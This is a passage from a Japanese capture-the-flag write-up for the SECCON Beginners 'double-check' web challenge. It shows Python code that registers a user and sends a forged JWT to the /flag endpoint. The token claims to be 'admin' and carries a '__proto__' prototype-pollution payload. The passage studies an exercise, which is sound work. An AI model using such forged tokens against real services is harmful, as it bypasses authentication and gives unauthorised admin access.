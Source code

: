 ここで、ペイロードの時間を長くしているのは、有効期限切れを防ぐための利便性向上目的です。
その後、アウトプットされたファイルより、生成されたJWTを取り出します。

![](/images/bd9a3e670732a1/2023-06-03-23-36-34.png)

これをサーバに送信します。
以下はPythonのコードです。

```python
import requests 

ses = requests.session()
data = {
    "username": "hoge",
    "password": "fuga",
}
ses.post("https://double-check.beginners.seccon.games/register", json=data)

key = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxMTAzMzU0MzAwMDAwMDAwLCJleHAiOjExMDMzNTQzMDAwMDAwMDAsIl9fcHJvdG9fXyI6eyJhZG1pbiI6ImhvZ2UifX0.qK5etXBQOeq_Nv9DsBbO0q8PY4EIfJZvMr3yOE3bNww"

headers = {
        "Authorization": key,
}

res = ses.post("https://double-check.beginners.seccon.games/flag", headers=headers)
print(res.text)
```

これを実行すると、フラグが入手できます。

![](/images/bd9a3e670732a1/2023-06-03-23-37-51.png)
